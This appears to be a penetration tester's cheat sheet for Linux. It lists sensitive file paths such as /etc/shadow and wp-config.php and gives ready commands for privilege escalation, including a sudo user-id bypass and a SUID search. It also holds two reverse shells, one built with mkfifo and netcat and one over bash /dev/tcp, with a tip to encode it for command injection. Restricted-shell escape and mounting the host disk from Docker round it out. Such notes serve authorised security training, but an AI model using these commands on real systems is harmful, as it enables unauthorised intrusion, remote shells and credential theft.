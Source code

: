 # Linux

## Important files (Default Location)

```
/etc/passwd
/etc/group
/etc/shadow
/var/www/html/
/var/www/
/tmp/
/home/
/var/log/nginx/access.log
/var/log/apache/access.log
/var/log/auth.log
/etc/apache2/sites-available/000-default.conf
/etc/samba/smb.conf
/var/www/html/wordpress/wp-config.php
/etc/fstab
/var/log/cron.log
```

### PrivEsc

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP_ADDR] [PORT] >/tmp/f
sudo -l   # /etc/sudoers
find / -perm -4000 2>/dev/null    # file with suid
sudo -u#-1 /bin/bash
```

### Reverse Shell

```
echo "bash -i >& /dev/tcp/[IP_ADDR]/[PORT] 0>&1" |bash    # base64 encode the echo cmd; use for os command injection (api)
```

### Not So Important But May Be Useful (Default Location)

```
/proc/cpuinfo
```

### PATH & Restricted Shell

```
export PATH=/tmp:$PATH
ssh alfred@10.11.1.101 -t "bash --noprofile"
```

### Docker

```shell
docker images
docker build -t [image-name] [Dockerfile location]    # building a docker image from the image file
docker run [image-name]   # running the docker image
---------------Mount SDA1----------------
fdisk -l
mkdir -p /mnt/tmpp
mount /dev/sda1 /mnt/tmpp
```

### Network & Firewall rules

```
iptables -L
cat /etc/sysconfig/iptables
cat /etc/resolv.conf
```
